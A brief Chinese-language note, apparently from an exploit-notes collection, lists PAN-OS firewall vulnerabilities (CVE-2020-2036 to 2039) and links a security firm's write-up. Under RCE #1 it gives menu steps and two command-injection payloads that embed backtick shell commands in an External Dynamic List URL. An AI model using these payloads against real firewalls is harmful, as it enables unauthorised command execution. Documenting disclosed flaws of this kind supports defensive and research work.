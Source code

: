 # Palo Alto PAN-OS 防火墙多个漏洞

* 任意命令执行 CVE-2020-2037和CVE-2020-2038
* DOS — CVE-2020-2039
* 反射跨站点脚本（XSS）— CVE-2020-2036

**RCE #1**

登录web管理，在“Objects”选项卡上，转到“External Dynamic Lists”，点击新增源，输入Payload：

```
http://myhost/?result='`id`'
http://myServer/'`sleep 5`'
```

**RCE #2**

![](images/16133786592286.jpg)


DOS/XSS:https://swarm.ptsecurity.com/swarm-of-palo-alto-pan-os-vulnerabilities/

from:https://swarm.ptsecurity.com/swarm-of-palo-alto-pan-os-vulnerabilities/